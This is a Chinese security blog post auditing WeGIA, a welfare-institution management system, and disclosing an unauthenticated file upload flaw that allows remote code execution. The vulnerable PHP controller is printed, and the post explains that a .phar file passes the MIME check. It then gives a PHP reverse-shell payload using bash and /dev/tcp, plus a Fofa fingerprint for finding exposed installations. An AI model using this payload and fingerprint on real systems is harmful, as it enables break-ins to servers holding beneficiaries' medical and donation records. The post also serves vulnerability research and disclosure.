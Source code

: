#  【代码审计】WeGIA 存在前台任意文件上传漏洞 (RCE)   
原创 Mstir  星悦安全   2025-01-18 11:08  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
WeGIA是一个福利机构管理器，并且具有一下几种功能，并且在3.2.8及之前版本都存在前台任意文件上传漏洞，且都可进行直接上传Phar等文件执行任意命令，反弹Shell等操作:  
- 人员，用于员工和与会者的注册;  
  
- 材料和资产，用于仓库控制和捐赠;  
  
- 备忘录，用于在各个部门之间交换机构信息，减少纸张流动;  
  
- 捐款，通过信用卡或银行单据捐款筹集资金;  
  
- 健康，用于管理受助人员和员工的医疗记录和药物控制;  
  
- 宠物，用于登记所服务的动物  
  
RT  
  
**Fofa指纹:"./assets/vendor/select2/select2.js"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cVY95H7tSkdBibeP8gaCafQ6gtWqAjBfnwAUsFWFw43IyiaEYZOLaIUcluaj7AMkGPAV7fTYFOYKfQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cVY95H7tSkdBibeP8gaCafQn0icziaZybBJ2RcjBxzuXGl7USOWtFEGLMYPmC2Q2ovMg810M8vDQ0zQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cVY95H7tSkdBibeP8gaCafQn0icziaZybBJ2RcjBxzuXGl7USOWtFEGLMYPmC2Q2ovMg810M8vDQ0zQ/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**漏洞点位于 /WeGIA/html/socio/sistema/controller/controla_xlsx.php 中，可以很清楚地看到存在文件上传操作，只需要上传的mini为application/vnd.ms-excel 即可上传**  
  
```
<?php
// Inicia a sessão
session_start();
require_once(dirname(__DIR__, 3) . '/permissao/permissao.php');

permissao($_SESSION['id_pessoa'], 4, 3);

// Inicializa a resposta padrão
$r = array(
    "resultado" => false,
    "mensagem" => "Ocorreu um erro ao processar o arquivo."
);

// Diretório seguro para armazenamento de arquivos
$diretorio = "../tabelas/";

// Cria o diretório, se não existir
if (!is_dir($diretorio)) {
    if (!mkdir($diretorio, 0755, true)) {
        $r['mensagem'] = "Erro ao criar diretório de upload.";
        echo json_encode($r);
        exit;
    }
}

if (!empty($_FILES['arquivo']['name'])) {
    // Tipos MIME permitidos para arquivos Excel (.xls e .xlsx)
    $tiposMimePermitidos = array(
        'application/vnd.ms-excel', // Para .xls
        'application/vnd.openxmlformats-officedocument.spreadsheetml.sheet' // Para .xlsx
    );

    // Obtém o tipo MIME do arquivo
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $tipoMime = finfo_file($finfo, $_FILES['arquivo']['tmp_name']);
    finfo_close($finfo);

    // Verifica se o tipo MIME do arquivo é permitido
    if (!in_array($tipoMime, $tiposMimePermitidos)) {
        http_response_code(400);
        $r['mensagem'] = "Tipo de arquivo inválido. Apenas arquivos .xls e .xlsx são permitidos.";
        echo json_encode($r);
        exit;
    }

    // Obtém o nome e a extensão do arquivo
    $file_name_original = basename($_FILES['arquivo']['name']);
    $extensao = strtolower(pathinfo($file_name_original, PATHINFO_EXTENSION));

    // Sanitiza o nome do arquivo para evitar problemas com caracteres especiais
    $file_name_sanitized = preg_replace("/[^a-zA-Z0-9\._-]/", "_", pathinfo($file_name_original, PATHINFO_FILENAME));
    $file_name = uniqid() . "_" . $file_name_sanitized . '.' . $extensao;

    // Verifica se o arquivo já existe (mesmo com nomes únicos, esta é uma garantia extra)
    $destino = $diretorio . $file_name;
    if (file_exists($destino)) {
        $r['mensagem'] = "Um arquivo com o mesmo nome já existe.";
        echo json_encode($r);
        exit;
    }

    // Move o arquivo para o diretório seguro
    if (move_uploaded_file($_FILES['arquivo']['tmp_name'], $destino)) {
        $r['resultado'] = true;
        $r['mensagem'] = "Upload realizado com sucesso.";
        $r['url'] = "./tabelas/" . urlencode($file_name); // Codifica a URL para evitar problemas
    } else {
        $r['mensagem'] = "Erro ao mover o arquivo para o diretório de destino.";
    }
}

// Retorna a resposta em formato JSON
echo json_encode($r);
?>
```  
  
  
从/WeGIA/html/socio/sistema/controller/controla_xlsx.php 捕获文件上传请求后，只需将上传的文件类型更改为 .phar，将有效负载插入内容中并发送请求即可。  
  
```
<?php
$ip = 'IP';
$port = 4444;
system("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>


```  
  
  
Payload:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cVY95H7tSkdBibeP8gaCafQuLZUoia2JA1Q6KT6Q0ZicaegmBldVQKdU5ibFJymOEdSfuw9ibq2sGAzUg/640?wx_fmt=png&from=appmsg "")  
  
上传后，文件在 /WeGIA/html/socio/sistema/tabelas/shell.phar  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cVY95H7tSkdBibeP8gaCafQtyIcZOO2w4oXCzdW0271XpKibCN8b7iaicPBCjYibeoZhgeunhGCxE1YBQ/640?wx_fmt=png&from=appmsg "")  
## 0x02 WeGIA源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
WeGIA源码  
**关注公众号发送 250118 获取!**  
  
  
  
****  
**开了个星悦安全公开交流2群，🈲发公众号，纯粹研究技术，还会拉一些大佬，希望大家多多交流.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cVY95H7tSkdBibeP8gaCafQlIAGvwMjWViahIHLVzvxa8IXjkL69q5Uic6ymkEMuDfAQRia8AZYL6A2Q/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
  

